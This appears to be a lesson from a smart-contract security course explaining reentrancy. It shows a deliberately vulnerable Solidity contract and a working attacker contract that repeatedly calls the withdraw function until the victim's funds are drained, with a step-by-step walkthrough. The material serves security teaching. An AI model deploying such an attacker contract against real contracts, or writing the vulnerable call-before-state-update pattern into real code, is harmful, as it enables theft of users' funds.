 ```yaml
---
title: Exploit - Reentrancy
---
```


_Follow along with this video:_

---

Let's see if we can nail down this vulnerability. When we'd run `Slither` earlier, you may recall it had actually found something...

Run it again and we'll have a closer look.

```bash
slither .
```

Looking through the output, we can see `Slither` is in fact detecting things in our `refund` function!

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png' style='width: 75%; height: auto;'}

### What is a re-entrancy attack and how does it work?

For this lesson we'll be heavily leaning on our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo for diagrams and examples to reference. Be sure to clone it so you can see how these vulnerabilities work locally.

Here's our example contract:

```js
contract ReentrancyVictim {
    mapping(address => uint256) public userBalance;

    function deposit() public payable {
        userBalance[msg.sender] += msg.value;
    }

    function withdrawBalance() public {
        uint256 balance = userBalance[msg.sender];
        // An external call and then a state change!
        // External call
        (bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }

        // State change
        userBalance[msg.sender] = 0;
    }
}
```

Fairly simple. Under normal circumstances

User A (balance 10 ether) can deposit funds

1. deposit{value: 10 ether}

  :bruserBalance[UserA] = 10 ether
  :brcontract balance = 10 ether
  :brUser A balance = 0 ether

And then withdraw them

2. withdrawBalance

  :bruserBalance[UserA] = 0 ether
  :brcontract balance = 0 ether
  :brUser A balance = 10 ether

The order of operations is reeally important in these situations. In our `withdrawBalance` function, we see that the function is making an external call _before_ updating the state of the contract.

What this means, is that an attacker could have that external call be made in such a way that it triggers a call of the `withdrawBalance` function again (hence - reentrancy).

```js
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

Consider the above attack contract. Seems pretty benign, but let's walk through what's actually happening.

1. Attacker calls the attack function which deposits 1 ether, then immediately withdraws it.

```js
function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }
```

2. The `ReentrancyVictim` contract does what's it's supposed to and received the deposit, then processs the withdrawal. During this process the victim contract makes a call to the attacker's contract.

**NOTE: THIS IS BEFORE OUR BALANCE HAS BEEN UPDATED**

```js
(bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }
```

What happens when a contract receives value? It's going have it's receive/fallback functions triggered. And what does our Attacker's receive function look like?

```js
receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
```

It calls the `withdrawBalance` function again! Because our previous `withdrawBalance` hasn't updated our balance yet, the contract will happily let us withdraw again.. and again .. and again until all funds are drained.

Let's look at this all put together.

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy2.png' style='width: 75%; height: auto;'}

### Wrap Up

Re-entrancy is a a big deal and it's very impactful when it happens. We're really going to nail down our understanding of this attack vector before moving on.

At it's most minimalistic, re-entrancy generates a loop that continually drains funds from a protocol.

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy3.png' style='width: 75%; height: auto;'}

Our next lesson is going to be a hands on example of this vulnerability in Remix. Let's see what this exploit is like in action.
